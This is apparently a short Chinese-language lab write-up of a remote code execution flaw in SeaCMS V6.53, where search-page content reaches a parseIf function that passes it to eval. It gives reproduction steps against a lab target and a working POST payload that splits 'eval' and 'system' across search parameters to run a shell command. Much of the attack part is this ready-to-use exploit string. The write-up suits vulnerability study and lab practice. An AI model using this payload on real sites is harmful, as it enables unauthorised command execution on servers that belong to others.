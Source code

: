# 海洋cms V6.53 版本代码执行 by [scholar](https://github.com/Frivolous-scholar) 

## 概述

echoSearchPage 函数中的 content 变量传给了 parself 函数，跟踪代码，找到 ./include/main.class.php，可以看到 parseIf 函数会将content内容 eval 执行，造成命令执行。

## 复现

1、首先打开靶场。

![1](./1.png)

2、进行搜索并抓包。

![2](./2.png)

3、利用 POC 来拿 Flag,POC 如下。

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls /tmp");
```

![3](./3.png)
